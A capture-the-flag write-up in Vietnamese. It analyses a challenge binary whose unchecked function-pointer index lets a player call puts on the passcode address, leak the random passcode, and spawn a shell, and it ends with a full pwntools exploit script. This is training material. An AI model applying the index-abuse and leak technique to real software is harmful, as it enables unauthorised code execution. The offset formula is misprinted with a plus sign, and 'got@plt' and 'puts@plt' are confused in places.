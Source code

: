 
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  __int64 choice; // [rsp+0h] [rbp-10h]
  __int64 ag; // [rsp+8h] [rbp-8h]

  setup(argc, argv, envp);
  printf("[*] NickName> ");
  if ( read(0, &username, 0x40uLL) == -1 )
  {
    perror("READ ERROR");
    exit(-1);
  }
  while ( 1 )
  {
    menu();
    choice = read_int();
    printf("[*] Guess>");
    ag = read_int();
    ((void (__fastcall *)(__int64))conv[choice - 1])(ag);
  }
}
```
```c
__int64 read_int()
{
  __int64 buf[6]; // [rsp+0h] [rbp-30h] BYREF

  buf[5] = __readfsqword(0x28u);
  memset(buf, 0, 32);
  printf("> ");
  if ( read(0, buf, 0x20uLL) == -1 )
  {
    perror("READ ERROR");
    exit(-1);
  }
  return atol((const char *)buf);
}
```
```c
unsigned __int64 __fastcall hard(__int64 a1)
{
  int i; // [rsp+14h] [rbp-2Ch]
  char path[8]; // [rsp+2Fh] [rbp-11h] BYREF
  char v4; // [rsp+37h] [rbp-9h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  strcpy(path, "<qz}<`{");
  v4 = 0;
  for ( i = 0; i <= 6; ++i )
    path[i] ^= 0x13u;
  if ( a1 == passcode )
  {
    puts("[+] WINNNN!");
    execve(path, 0LL, 0LL);
  }
  else
  {
    puts("[-] YOU ARE NOT WORTHY FOR A SHELL!");
  }
  change_passcode();
  return v5 - __readfsqword(0x28u);
}
```

Về cơ bản thì chương trình sẽ cho phép ta nhập `tên` vào biến `username` và tiếp đến sẽ cho ta những `options` để chọn. Để ý ở hàm `main` ta thấy:
```c
  while ( 1 )
  {
    menu();
    choice = read_int();
    printf("[*] Guess>");
    ag = read_int();
    ((void (__fastcall *)(__int64))conv[choice - 1])(ag);
  }
}
```
Thì ở đây nó dùng `((void (__fastcall *)(__int64))conv[choice - 1])(ag);` cho phép tạo một con trỏ hàm cho phép nhận duy nhất một tham số với `conv[choice - 1]` là mảng lưu trữ 2 hàm `easy` và `hard`. Và khi ta nhập option `2` thì nó sẽ chuyển sang hàm `hard` cho ta. Hàm này sẽ cho ta tạo `shell` nếu ta đoán đúng `passcode` và `passcode` được gán giá trị random nhờ hàm `change_passcode`:
```c
int change_passcode()
{
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/dev/random", 0);
  if ( fd < 0 )
  {
    perror("OPEN ERROR");
    exit(-1);
  }
  if ( read(fd, &passcode, 8uLL) == -1 )
  {
    perror("READ ERROR");
    exit(-1);
  }
  puts("[*] PASSCODE CHANGED!");
  return close(fd);
}
```
Hàm sẽ lấy giá trị ngẫu nhiên từ `/dev/random` và gán nó vào `&passcode`. Đến đây mình khá bí vì không biết nên làm gì tiếp theo, nên là mình đã debug file này một hồi khá lâu thì nhận ra rằng `((void (__fastcall *)(__int64))conv[choice - 1])(ag)` trước khi nó gọi một hàm nào đó nó sẽ setup `conv[choice - 1]` như thế này:
```
   0x401609 <main+148>    mov    qword ptr [rbp - 8], rax        [0x7fffffffdbc8] <= 0x2b67
   0x40160d <main+152>    mov    rax, qword ptr [rbp - 0x10]     RAX, [0x7fffffffdbc0] => 2
   0x401611 <main+156>    sub    rax, 1                          RAX => 1 (2 - 1)
 ► 0x401615 <main+160>    lea    rdx, [rax*8]                    RDX => 8
   0x40161d <main+168>    lea    rax, [rip + 0x29ec]             RAX => 0x404010 (conv) —▸ 0x4012e1 (easy) ◂— push rbp
   0x401624 <main+175>    mov    rdx, qword ptr [rdx + rax]      RDX, [conv+8] => 0x40132c (hard) ◂— push rbp
   0x401628 <main+179>    mov    rax, qword ptr [rbp - 8]        RAX, [0x7fffffffdbc8] => 0x2b67
   0x40162c <main+183>    mov    rdi, rax                        RDI => 0x2b67
   0x40162f <main+186>    call   rdx                         <hard>
```

Thì mình đã nhập `choice` là `2`, như ta có thể thấy nó lấy kết quả đó trừ 1 và lưu vào `rax` và rồi lấy kết quả đó tính toán cho `rdx` (ở lần thử này `rdx = 8`). Tiếp đến gán địa chỉ của `conv` cho rax và cuối cùng là gán địa chỉ của `conv+offset` cho `rdx` rồi thực thi nó. Điều này làm cho mình nảy ra ý tưởng có thể tận dùng cái này để leak ra `passcode`. Và ý tưởng của mình là:

- Ta tận dụng put@plt nhập vào `username` 
- Ở lần nhập `ag` mình sẽ nhập vào địa chỉ của `passcode`

Nhưng điều đầu tiên chúng ta cần làm là tính toán giá trị từ `conv` đến `username` trong memory để khi nó thực thi nó sẽ thực thi `got@plt` ta để ở biến `username`. `username` có địa chỉ `0x404080` và `conv` có địa chỉ `0x404010`. Offset từ `conv` -> `username` sẽ là `[(0x404080 + 0x404010) // 8] + 1 = 15`. Như vậy ta có thể leak được `passcode` và dùng nó để tạo shell

Full exploit:

```py
#!/usr/bin/python3
from pwncus import *

# context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)


def GDB(): gdb.attach(p, gdbscript='''


c
''') if not args.REMOTE else None

p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT 
# ===========================================================

passcode_address = 0x404060
puts_plt = exe.plt.puts

sa(b'[*] NickName> ', p64(puts_plt))
sla(b'> ', b'15')
sa(b'>', str(passcode_address).encode())

ru(b'> ')
# print(ru(b'\n'))
passcode = u64(ru(b'\n').strip())
print(f'Passcode leak: {passcode}')

sla(b'> ', b'2')
sa(b'>', str(passcode).encode())
interactive()
```